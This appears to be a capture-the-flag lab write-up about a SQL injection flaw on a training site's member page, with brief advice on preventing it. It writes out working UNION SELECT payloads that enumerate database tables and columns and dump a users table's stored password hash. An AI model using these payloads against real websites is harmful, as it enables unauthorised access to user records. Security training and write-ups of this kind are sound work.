 # The issue
Forms are not protected against SQL injection enabling us to get access to precious information

## How to reproduce it on the website?
On page http://10.13.0.53/?page=member 

Enter `1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables`
in order to get all the tables.

Enter `1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns` in order to get the columns of tables.

Enter `1 AND 1=2 UNION SELECT Commentaire, countersign  FROM Member_Sql_Injection.users` to get information of the user tables.

You can see this text and just need to apply it:
```
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28
```

## Why is it a problem?
You can access to the content of the different tables especially to the users.


## How to avoid it?
Use a good framework that prepare accodingly the sql requests.
Be sure to escape correctly special caracters. Check for the data given versus the data type expected in the database. 


